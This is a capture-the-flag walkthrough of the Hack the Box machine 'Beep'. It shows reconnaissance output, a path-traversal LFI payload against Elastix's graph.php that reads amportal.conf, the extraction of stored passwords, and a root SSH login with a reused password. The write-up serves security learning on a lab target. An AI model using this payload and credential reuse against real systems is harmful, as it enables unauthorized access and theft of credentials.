


Title: Beep - Hack the Box
Date: 2020-04-26
Category: ctf
Tags: ctf, hack the box, oscp prep
Slug: htb-beep
Authors: Riley
Summary: Guide to Beep from Hack the Box

## Description

Beep is a very straightforward Unix box featuring LFI web app exploit.  The path goes pretty much straight to root.

## Reconnaissance

To start, we should see what services are available on this box.

**Nmap scan**
```bash
# nmap -Pn -oA nmap/beep -sV -sC 10.10.10.7
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-26 14:01 PDT
Nmap scan report for 10.10.10.7
Host is up (0.12s latency).
Not shown: 988 closed ports
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
25/tcp    open  smtp       Postfix smtpd
80/tcp    open  http       Apache httpd 2.2.3
110/tcp   open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
111/tcp   open  rpcbind    2 (RPC #100000)
143/tcp   open  imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
443/tcp   open  ssl/https?
993/tcp   open  ssl/imap   Cyrus imapd
995/tcp   open  pop3       Cyrus pop3d
3306/tcp  open  mysql      MySQL (unauthorized)
4445/tcp  open  upnotifyp?
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
Service Info: Hosts:  beep.localdomain, 127.0.0.1, example.com
```

There's a fair bit going on here, but a good place to start would be the HTTPS server on 443

### Examining HTTPS/443: Elastix server

The server hosts an Elastix site.



A quick `searchsploit` reveals several exploits to choose from, one of note that may work is an Local File Inclusion (LFI) vulnerability.

```bash
# searchsploit elastix
-------------------------------------------------------------------------------------------------------------------- ----------------------------------------│
 Exploit Title                                                                                                      |  Path                                  │
                                                                                                                    | (/usr/share/exploitdb/)                │
-------------------------------------------------------------------------------------------------------------------- ----------------------------------------│
Elastix - 'page' Cross-Site Scripting                                                                               | exploits/php/webapps/38078.py          │
Elastix - Multiple Cross-Site Scripting Vulnerabilities                                                             | exploits/php/webapps/38544.txt         │
Elastix 2.0.2 - Multiple Cross-Site Scripting Vulnerabilities                                                       | exploits/php/webapps/34942.txt         │
Elastix 2.2.0 - 'graph.php' Local File Inclusion                                                                    | exploits/php/webapps/37637.pl          │
Elastix 2.x - Blind SQL Injection                                                                                   | exploits/php/webapps/36305.txt         │
Elastix < 2.5 - PHP Code Injection                                                                                  | exploits/php/webapps/38091.php         │
FreePBX 2.10.0 / Elastix 2.2.0 - Remote Code Execution                                                              | exploits/php/webapps/18650.py          │
------------------------------------------------------------------------------------------------------------------- | ---------------------------------------│
```

Exploiting an LFI would allow us to snoop on otherwise inaccessible files, such as configuration files.  In web apps, these usually contain sensitive data such as user account names and passwords; we could potentially use these to access another service (such as MySQL) or get access to the server itself.

I couldn't exploit the server by running the exploit file, but there is a comment in the soruce code that indicates what file path was used; we should be able to copy and paste the value into a browser manually.

```perl
#LFI Exploit: /vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
```



The exploit worked!  This is a large text file, so it would be best to sort it using some bash utilities.  For this, I copy and pasted the the content into a new file `amportal.conf` manually.

```bash
# cat amportal.conf | tr " " "\n" | sort | uniq | grep USER
AMPDBUSER
AMPDBUSER:
AMPDBUSER/AMPDBPASS
AMPDBUSER=asteriskuser
AMPMGRUSER
AMPMGRUSER:
AMPMGRUSER=admin
ARI_ADMIN_USERNAME=admin
CDRDBUSER:
USER

# cat amportal.conf | tr " " "\n" | sort | uniq | grep PASS                                                                          
AMPDBPASS:
AMPDBPASS=amp109
AMPDBPASS=jEhdIekWmdjE
AMPDBUSER/AMPDBPASS
AMPMGRPASS:
#AMPMGRPASS=amp111
AMPMGRPASS=jEhdIekWmdjE
ARI_ADMIN_PASSWORD
ARI_ADMIN_PASSWORD=jEhdIekWmdjE
CDRDBPASS:
FOPPASSWORD:
FOPPASSWORD=jEhdIekWmdjE
#FOPPASSWORD=passw0rd
localhost=(root)NOPASSWD:
```

## Getting root

We can quickly test the password `jEhdIekWmdjE` to see what we now have access to.  A good first target would be root on SSH.

*Note: I had to add the `-oKexAlgorithms=diffie-hellman-group-exchange-sha1` as SSH was giving an error `no matching key exchange method found`.*

```bash
# ssh -oKexAlgorithms=diffie-hellman-group-exchange-sha1 root@10.10.10.7
The authenticity of host '10.10.10.7 (10.10.10.7)' can not be established.
RSA key fingerprint is SHA256:Ip2MswIVDX1AIEPoLiHsMFfdg1pEJ0XXD5nFEjki/hI.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.7' (RSA) to the list of known hosts.
root@10.10.10.7 password: jEhdIekWmdjE
Last login: Tue Jul 16 11:45:47 2019

Welcome to Elastix 
----------------------------------------------------

To access your Elastix System, using a separate workstation (PC/MAC/Linux)
Open the Internet Browser using the following URL:
http://10.10.10.7

[root@beep ~]# whoami && hostname
root
beep
[root@beep ~]# wc -c root.txt
33 root.txt
[root@beep ~]#
```

The password lets us authenticate as root, giving us total control of the target server.

Thus concludes this walkthrough.  Thank you for reading.
